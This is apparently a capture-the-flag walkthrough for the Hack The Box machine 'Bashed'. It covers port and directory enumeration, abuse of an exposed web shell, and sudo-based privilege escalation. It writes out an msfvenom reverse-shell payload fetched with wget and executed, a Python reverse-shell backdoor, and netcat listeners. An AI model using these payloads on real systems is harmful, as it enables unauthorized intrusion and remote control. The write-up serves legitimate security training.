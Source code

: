 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

### Enumeration
Start with a full Nmap scan to identify open ports:
```bash
sudo nmap -sV -sC -sS -oA scan/result $IP
```
The results show only port **80 (HTTP)** is open.

### [HTTP](HTTP) Enumeration
Visiting the website reveals a PHP-based web application. To discover hidden paths:
```bash
gobuster dir --url "http://$IP" -w /usr/share/dirb/wordlists/small.txt
```
The `/dev/` directory contains accessible files — one allows command execution via the web.

Using this functionality, grab the user flag:
```bash
cat /home/arrexel/user.txt
```

### Privilege Escalation
Run `sudo -l` to identify available sudo privileges:
```bash
sudo -l
```
It reveals that we can run scripts as **scriptmanager** without a password.

List all files owned by **scriptmanager**:
```bash
find / -user scriptmanager -type f 2>/dev/null
```
A Python script in `/scripts/` is modifiable. We'll exploit it.

### Reverse Shell via ELF Payload
Generate a reverse shell payload:
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=9001 -f elf > exploit.elf
```
Serve it via Python:
```bash
python3 -m http.server 80
```
Download and execute it from the target:
```bash
cd /tmp
wget http://$YOUR_IP/exploit.elf
chmod +x exploit.elf
./exploit.elf
```
Start a listener:
```bash
nc -lvnp 9001
```
Once inside, stabilize the shell:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=screen
```

### Alternative Python Backdoor
Create `test.py`:
```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("$YOUR_IP",9002))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("sh")
```
Upload and execute it using the writable script.

Start another listener:
```bash
nc -lvnp 9002
```
This grants a shell as **root**.

### Root
Retrieve the root flag:
```bash
cat /root/root.txt
```

---

🎉 Congrats, you rooted **HTB: Bashed**!

